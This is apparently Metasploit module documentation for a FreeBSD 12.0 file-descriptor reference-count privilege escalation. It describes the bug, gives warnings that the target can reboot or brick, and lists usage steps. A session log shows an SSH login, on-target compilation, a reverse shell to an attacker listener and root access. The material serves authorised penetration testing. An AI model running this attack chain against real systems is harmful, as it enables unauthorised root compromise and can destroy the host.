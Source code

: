 ## Vulnerable Application

FreeBSD 12.0 (and some 11) attempts to handle the case where the receiving process does
not provide a sufficiently large buffer for an incoming control message
containing rights.  In particular, to avoid leaking the corresponding
descriptors into the receiving process' descriptor table, the kernel handles
the truncation case by closing descriptors referenced by the discarded
message.

The code which performs this operation failed to release a reference obtained
on the file corresponding to a received right.  This bug can be used to cause
the reference counter to wrap around and free the file structure.

Exploitation results in write access to `/etc/libmap.conf` where a new dynamic
object is added which includes our payload.

A very detailed write-up is available at [secfault-security.com](https://secfault-security.com/blog/FreeBSD-SA-1902.fd.html)

### Warnings

This exploit is tempermental, often resulting in a system reboot.
Successful exploitation will alter `/etc/libmap.conf`.  If the added library
`libno_ex.so.1.0` is deleted, the system will brick.  Attempts to restore
`/etc/libmap.conf` automatically fail.  Manually reverting the
file from the root prompt should be successful though.

### Warnings 2

Canceling execution of this exploit may case a system reboot,
or cause the system to brick.  If the system reboots, artifacts will
remain on disk and require manual cleanup.

### Warnings 3

This exploit can take between 20 and 60 minutes to exploit, with no feedback.
If the system reboots due to a failed exploitation attempt, no notification is seen
within metasploit until the 60 minute timeout window happens.

### Vulnerable Application

`kern.maxfiles` may need to be altered, and the higher the value, the more likely successful exploitation.  This value can be set by root by running
`sysctl kern.maxfiles=70000`.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploit/freebsd/local/freebsd_fd_ref_count_priv_esc```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell between 20 and 60 minutes later.

## Options

  **Forks**

  Set the number of forks to use.  May need to be adjusted based on system RAM.  Default is `3`

  **Threads**

  Set the number of threads per fork.  May need to be adjusted based on system RAM.  Default is `400`

## Scenarios

### FreeBSD 12.0 r341666 with kern.maxfiles 70000

  Exploitation with 70,000 `maxfiles` seems to be 100% with 1gig of ram in a virtual machine.

  ```
resource (freebsd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (freebsd.rb)> set username user
username => user
resource (freebsd.rb)> set password user
password => user
resource (freebsd.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (freebsd.rb)> exploit
[+] 2.2.2.2:22 - Success: 'user:user' ''
[*] Command shell session 1 opened (1.1.1.1:42135 -> 2.2.2.2:22) at 2020-01-09 19:41:17 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (freebsd.rb)> use exploit/freebsd/local/freebsd_fd_ref_count_priv_esc
resource (freebsd.rb)> set verbose true
verbose => true
resource (freebsd.rb)> set session 1
session => 1
resource (freebsd.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (freebsd.rb)> check
[+] cc is installed
[+] FreeBSD release 12.0-RELEASE rev r341666 with maxfiles 70000 is vulnerable
[+] The target is vulnerable.
resource (freebsd.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] cc is installed
[+] FreeBSD release 12.0-RELEASE rev r341666 with maxfiles 70000 is vulnerable
[*] Stored /etc/libmap.conf in loot.  If session cleanup is unsuccessful, system will brick. Use this to unbrick
[*] Writing '/tmp/.4arU1qp' (230 bytes) ...
[*] Max line length is 131073
[*] Writing 230 bytes in 1 chunks of 656 bytes (octal-encoded), using printf
[+] cc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.BtNP7k.c' (13201 bytes) ...
[*] Max line length is 131073
[*] Writing 13201 bytes in 1 chunks of 47760 bytes (octal-encoded), using printf
[*] Writing '/tmp/.aauI7Ac.c' (231 bytes) ...
[*] Max line length is 131073
[*] Writing 231 bytes in 1 chunks of 836 bytes (octal-encoded), using printf
[*] Writing '/tmp/.yknTtnS8.sh' (92 bytes) ...
[*] Max line length is 131073
[*] Writing 92 bytes in 1 chunks of 335 bytes (octal-encoded), using printf
[*] Launching exploit... May take 50-60 minutes. Start time: 2020-01-09 19:41:39 -0500
[*] [!] write_to_file: Could not stick thread to core: Invalid argument
[*] Command shell session 2 opened (1.1.1.1:4444 -> 2.2.2.2:25496) at 2020-01-09 20:01:02 -0500
[+] Deleted /tmp/.4arU1qp
[+] Deleted /tmp/.BtNP7k
[!] Tried to delete /tmp/.aauI7Ac, unknown result
[+] Deleted /tmp/.yknTtnS8.sh
[*] Performing Cleanup
[-] *************************************************
[+] Automated attempt to not brick the system failed.
[+] Please run `cp /tmp/libmap.conf /etc/libmap.conf`.
[-] *************************************************

id
uid=0(root) gid=0(wheel) groups=0(wheel)
cp /tmp/libmap.conf /etc/libmap.conf
uname -a
FreeBSD freebsd 12.0-RELEASE FreeBSD 12.0-RELEASE r341666 GENERIC  amd64
sysctl kern.maxfiles
kern.maxfiles: 70000
  ```
